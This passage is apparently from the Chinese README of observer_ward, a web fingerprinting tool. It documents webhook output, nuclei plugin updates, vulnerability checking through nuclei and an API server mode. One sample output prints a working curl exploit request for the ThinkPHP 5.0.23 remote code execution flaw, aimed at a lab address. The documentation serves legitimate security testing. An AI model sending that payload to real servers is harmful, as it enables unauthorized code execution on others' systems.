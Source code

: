 - 将结果发送到本地webhook服务器：`http://127.0.0.1:5000`，当识别完成后你将可以在webhook服务器接收到结果

```bash,no-run
➜  ~ ./observer_ward -t http://httpbin.org --webhook http://127.0.0.1:5000/webhook --webhook-auth 22e038328151a7a06fd4ebfa63a10228
[INFO ] 📇probes loaded: 6183
[INFO ] 🚀optimized probes: 8
[INFO ] 🎯target loaded: 1
🎯:[ http://httpbin.org/ [swagger,0example]  <httpbin.org> (200 OK) ]
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>

### 更新nuclei插件

- 使用`--update-plugin`更新nuclei插件到配置文件夹的`plugins`目录
- 当然你也可以手动将[plugins.zip](https://github.com/0x727/FingerprintHub/releases/download/defaultv4/plugins.zip)
  下载到配置文件夹并解压
- 注意：每次更新会将原来插件文件夹删除掉再解压，如果你有自己的插件需要单独存放在别的文件夹

### 集成nuclei验证漏洞

- 开启该功能前先安装最新版的[nuclei](https://github.com/projectdiscovery/nuclei)到系统环境变量，使得程序可以在命令行中正常调用
- 使用`--plugin`指定nuclei的template文件夹开启nuclei,这个`plugins`文件夹可以到社区指纹库项目下载
- 当`--plugin`的参数为`default`时，默认使用配置文件夹中的`plugins`文件夹，也就是使用`--update-plugin`下载的插件
- 文件夹结构为`厂商/产品/nuclei的yaml文件`，如果识别到的指纹解析cpe后得到了厂商和产品在这个文件夹可以找到就会调用这个文件夹下面的yaml进行漏洞验证
- 例如：指纹识别到了`tomcat`，通过解析cpe得到厂商为`apache`和产品为`tomcat`，调用`apache/tomcat`文件夹下面的全部yaml验证漏洞

```bash,no-run
➜  ~ ./observer_ward -t http://172.17.0.2/ --plugin default
[INFO ] 📇probes loaded: 6183
[INFO ] 🚀optimized probes: 8
[INFO ] 🎯target loaded: 1
🎯:[ http://172.17.0.2/ [apache-http]  <>]
🎯:[ http://172.17.0.2/ [thinkphp]  <>]
 |_🐞: [Critical] thinkphp-5023-rce: ThinkPHP 5.0.23 - Remote Code Execution
  |_🔥: http://172.17.0.2/index.php?s=captcha
  |_🐚: curl -X 'POST' -d '_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1' -H 'Accept: */*' -H 'Accept-Language: en' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Safari/605.1.15 Ddg/17.4' 'http://172.17.0.2/index.php?s=captcha'
```

### 开启Web服务

- 使用`--api-server`指定监听IP和端口，`--token`设置api的`Bearer`认证

```bash,no-run
➜  ~ ./observer_ward --api-server 127.0.0.1:8000 --token 22e038328151a7a06fd4ebfa63a10228
[INFO ] 📇probes loaded: 6183
[INFO ] 🚀optimized probes: 8
[INFO ] 🌐API service has been started: http://127.0.0.1:8000/v1/observer_ward
[INFO ] 📔:curl --request POST \
      --url http://127.0.0.1:8000/v1/observer_ward \
      --header 'Authorization: Bearer 22e038328151a7a06fd4ebfa63a10228' \
      --json '{"target":["https://httpbin.org/"]}'
[INFO ] 🗳:[result...]
```


[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/observer_ward.svg?style=for-the-badge
[contributors-url]: https://github.com/emo-crab/observer_ward/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/emo-crab/observer_ward.svg?style=for-the-badge
[forks-url]: https://github.com/emo-crab/observer_ward/network/members
[stars-shield]: https://img.shields.io/github/stars/emo-crab/observer_ward.svg?style=for-the-badge
[stars-url]: https://github.com/emo-crab/observer_ward/stargazers
[issues-shield]: https://img.shields.io/github/issues/emo-crab/observer_ward.svg?style=for-the-badge
[issues-url]: https://github.com/emo-crab/observer_ward/issues
[license-shield]: https://img.shields.io/github/license/emo-crab/observer_ward.svg?style=for-the-badge
[license-url]: https://github.com/emo-crab/observer_ward/blob/master/LICENSE.txt
[product-screenshot]: images/screenshot.png
[crates-shield]: https://img.shields.io/crates/v/observer_ward.svg?style=for-the-badge
[crates-url]: https://crates.io/crates/observer_ward
